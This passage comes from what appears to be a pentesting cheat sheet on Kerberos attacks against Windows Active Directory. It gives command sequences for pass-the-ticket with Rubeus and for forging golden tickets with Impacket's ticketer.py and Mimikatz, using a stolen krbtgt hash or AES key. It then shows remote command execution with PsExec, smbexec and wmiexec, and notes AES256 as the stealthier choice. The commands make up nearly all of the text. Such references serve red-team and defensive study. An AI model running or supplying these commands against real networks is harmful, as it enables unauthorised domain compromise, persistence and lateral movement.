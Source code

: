 Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Golden ticket
- With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```
